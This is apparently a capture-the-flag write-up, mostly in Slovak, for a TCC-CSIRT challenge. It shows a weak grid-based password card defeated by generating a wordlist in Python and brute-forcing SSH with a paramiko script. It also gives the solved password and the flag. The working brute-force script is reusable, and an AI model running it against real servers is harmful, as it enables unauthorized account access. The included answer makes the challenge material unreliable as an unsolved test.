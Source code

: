 # Zadanie #

> Hi, TCC-CSIRT analyst,
> 
> a new colleague came up with a progressive way of creating a memorable password and would like to implement it as a new standard at TCC. Each user receives a TCC-CSIRT password card and determines the password by choosing the starting coordinate, direction, and number of characters. For skeptics about the security of such a solution, he published the card with a challenge to log in to his SSH server.
> 
> Verify if the card method has any weaknesses by logging into the given server.
> 
- > [Download the password card](https://owncloud.cesnet.cz/index.php/s/XELt8f8DUe1BIYI/download "Download the password card")
> (sha256 checksum: `9a35dc6284c8bde03118321b86476cf835a3b48a5fcf09ad6d64af22b9e555ca`)
- > The server has domain name `password-card-rules.cypherfix.tcc` and the colleagues's username is `futurethinker`.

> See you in the next incident!
> 
> **Hint1:**
> The entropy is at first glance significantly lower than that of a randomly generated password.
> 
> **Hint2:**
> We know that the colleague's favorite number is 18, so it can be assumed that the password has this length as well.

----------

# Riešenie #

Ako hovorí úloha, potrebujeme sa prihlásiť na server `password-card-rules.cypherfix.tcc` pod používateľom `futurethinker`, pričom jeho heslo nepoznáme, ale máme password card, na základe ktorej je možné odvodiť heslo.

Ako napovedá hint, heslo má 18 znakov, čím sa nám podľa karty, ktorá obsahuje znaky A-Z a hviezdičky * v matici, resp mriežke 26*19 a heslo je sled znakov po sebe idúcich práve v jednom smere od ľubovolného začiatočného bodu, kým nedosiahne jeho dĺžku alebo nenarazí na okraj. Tým sa nám množina platných hesiel výrazne zúži.

Vygenerujeme si teda súbor s heslami jedným python scriptom 

```
def extract_password(card, start_row, start_col, direction, length=18):
    # definovanie smerov
    moves = {
        'right': (0, 1),
        'left': (0, -1),
        'down': (1, 0),
        'up': (-1, 0),
        'down_right': (1, 1),
        'down_left': (1, -1),
        'up_right': (-1, 1),
        'up_left': (-1, -1)
    }
    
    row, col = start_row, start_col
    move_row, move_col = moves[direction]
    password = ''
    
    for _ in range(length):
        if row < 0 or row >= len(card) or col < 0 or col >= len(card[0]):
            return None  
        password += card[row][col]
        row += move_row
        col += move_col
    
    return password

def generate_passwords(card):
    directions = ['right', 'left', 'down', 'up', 'down_right', 'down_left', 'up_right', 'up_left']
    passwords = []
    
    for row in range(len(card)):
        for col in range(len(card[0])):
            for direction in directions:
                password = extract_password(card, row, col, direction)
                if password:
                    passwords.append(password)
    return passwords

card = [
    list("SQUIRREL*JUDGE*NEWS*LESSON"),
    list("WORRY*UPDATE*SEAFOOD*CROSS"),
    list("CHAPTER*SPEEDBUMP*CHECKERS"),
    list("PHONE*HOPE*NOTEBOOK*ORANGE"),
    list("CARTOONS*CLEAN*TODAY*ENTER"),
    list("ZEBRA*PATH*VALUABLE*MARINE"),
    list("VOLUME*REDUCE*LETTUCE*GOAL"),
    list("BUFFALOS*THE*CATCH*SUPREME"),
    list("LONG*OCTOPUS*SEASON*SCHEME"),
    list("CARAVAN*TOBACCO*WORM*XENON"),
    list("PUPPYLIKE*WHATEVER*POPULAR"),
    list("SALAD*UNKNOWN*SQUATS*AUDIT"),
    list("HOUR*NEWBORN*TURN*WORKSHOP"),
    list("USEFUL*OFFSHORE*TOAST*BOOK"),
    list("COMPANY*FREQUENCY*NINETEEN"),
    list("AMOUNT*CREATE*HOUSE*FOREST"),
    list("BATTERY*GOLDEN*ROOT*WHEELS"),
    list("SHEEP*HOLIDAY*APPLE*LAWYER"),
    list("SUMMER*HORSE*WATER*SULPHUR")
]

all_passwords = generate_passwords(card)
with open('passwords.txt', 'w') as outfile:
    for password in all_passwords:
        outfile.write(password+"\n")
        outfile.flush()
        print(password)

```

do súboru passwords.txt sa nám vygenerovalo 518 potenciálnych hesiel, ktoré použijeme na brute force attack, kým sa nedostaneme k správnemu heslo, na to máme ďalší skript

```
import paramiko
import time
import sys
import os

def ssh_brute_force(host, port, username, password_file, delay=1):
    sys.stderr = open(os.devnull, 'w')

    with open(password_file, 'r') as file:
        passwords = file.read().splitlines()

    for i, password in enumerate(passwords, start=1):
        while True:
            try:
                client = paramiko.SSHClient()
                client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
                
                print(f"Pokus {i}: Skusam heslo: {password}")
                client.connect(hostname=host, port=port, username=username, password=password, timeout=5)
                
                print(f"Heslo je: {password} (Pokus {i})")

                session = client.get_transport().open_session()
                if session.recv_ready():  # Skusime ziskat banner po prihlaseni
                    server_message = session.recv(4096).decode().strip() 
                    print(f"Prihlasenie uspesne! Odpoved servera:\n {server_message}")
                else:
                    print("Prihlasenie uspesne! Ziadna uvodna sprava od servera.")
                return password
            except paramiko.AuthenticationException:
                print("Heslo naplatne.")
                break  # Ideme na ďalšie heslo
            except paramiko.SSHException:
                time.sleep(delay)
                continue
            except Exception:
                print("Oh shit!")
                break
            finally:
                client.close()
            time.sleep(delay)
    
    print("Ziadne heslo sa nenaslo!")
    return None

# SSH parametre
host = "password-card-rules.cypherfix.tcc"
port = 22
username = "futurethinker"
password_file = "passwords.txt"

# Go go go
ssh_brute_force(host, port, username, password_file)

```

Našli sme heslo SAOPUNUKTPHCANEMFW, ktoré použijeme pre prihlásenie. Po prihlásení sa nám zobrazí banner spolu s vlajkou.

    $ ssh -l futurethinker password-card-rules.cypherfix.tcc
    futurethinker@password-card-rules.cypherfix.tcc's password:

    Nobody will ever read this message anyway, because the TCC password card is super secure. Even my lunch access-code is safe here: FLAG{uNZm-GGVK-JbxV-1DIx}
    Connection to password-card-rules.cypherfix.tcc closed.

----------

## Vlajka ##
    FLAG{uNZm-GGVK-JbxV-1DIx}